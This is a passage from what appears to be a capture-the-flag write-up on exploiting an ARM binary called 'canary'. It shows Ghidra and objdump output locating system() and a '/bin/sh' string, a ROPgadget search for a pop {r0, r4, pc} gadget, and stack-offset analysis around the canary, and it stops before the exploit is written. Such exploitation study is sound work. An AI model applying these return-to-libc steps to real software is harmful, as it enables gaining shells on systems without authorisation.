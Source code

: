 ```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             int __stdcall system(char * __command)
             int               r0:4           <RETURN>
             char *            r0:4           __command
                             __libc_system                                   XREF[1]:     Entry Point(*)  
                             system
        00016d90 00 00 50 e3     cmp        __command,#0x0
```

We can also see it using objdump:
```
$    arm-none-eabi-objdump -D canary | grep libc_system
00016d90 <__libc_system>:
   16d94:    0a000000     beq    16d9c <__libc_system+0xc>
```

Next we just need to prep the argument for the `system` function. In Ghidra we can see that the string `/bin/sh` is at `0x71eb0`:

```
                             s_/bin/sh_00071eb0                              XREF[1]:     do_system:00016d58(*)  
        00071eb0 2f 62 69        ds         "/bin/sh"
                 6e 2f 73
                 68 00
```

The next thing that we will need is a ROP gadget that will pop values into the `r0` and `pc` registers. The code will expect it's argument in `r0`, and it will expect `pc` to hold the address to be executed:

```
$    python ROPgadget.py --binary canary | grep pop | grep r0 | grep pc
```

Looking through the list, we find this one which works (although we will need 4 bytes of filler data for `r4`):

```
0x00026b7c : pop {r0, r4, pc}
```

There is just one last thing that we will need before we can write the exploit. We know that the offset between the start of our input and the stack canary is `40` bytes, but what is the offset between the stack canary and the return address? Looking at the stack layout of the `main` function, we see that the canary is stored at offset `-0x14`:

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main()
             undefined         r0:1           <RETURN>                                XREF[1]:     00010530(W)  
             ssize_t           r0:4           bytesRead                               XREF[1]:     00010530(W)  
             int               Stack[-0x14]:4 stackCanary                             XREF[2]:     000104cc(W),
                                                                                                   00010578(R)  
             char[41]          Stack[-0x3d]   input
             int               HASH:3fd2270   canary
                             main                                            XREF[3]:     Entry Point(*),
                                                                                          _start:0001039c(*), 000103b0(*)  
```